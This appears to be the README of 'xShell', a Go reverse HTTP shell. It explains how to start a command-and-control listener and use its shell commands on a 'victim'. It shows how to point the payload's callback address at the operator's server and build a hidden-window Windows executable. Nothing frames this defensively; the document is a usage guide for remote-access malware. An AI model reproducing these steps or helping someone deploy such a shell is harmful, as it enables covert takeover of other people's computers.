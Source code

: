 <div align="center">
  <h1>xShell</h1>
  <br/>
  <p><i>A simple reverse http shell written in golang</i></p>
  <br/>
</div>

# Usage

### Change listener port:
In c2/httpC2.go:
```go
const Port = "80" // change port here
```

### Start listener:
```sh
go run c2/httpC2.go
```
If you want the listener to listen on port 80 or 443 you must use sudo:
```sh
sudo go run c2/httpC2.go
```

### Listener commands:
```
shells - list all active shells
shell <shell_name> - interact with specifc shell
quit - quit shell (closes shell on victim)
exit - return to main menu (shell continues to run)
```

### Set call back host:
In payload/xShell.go:
```go
const ServerAddr = "127.0.0.1:80" // change this to your servers IP/Host
```

### Build shell:
```sh
GOOS=windows GOARCH=amd64 go build -ldflags -H=windowsgui -o xShell.exe payload/xShell.go
```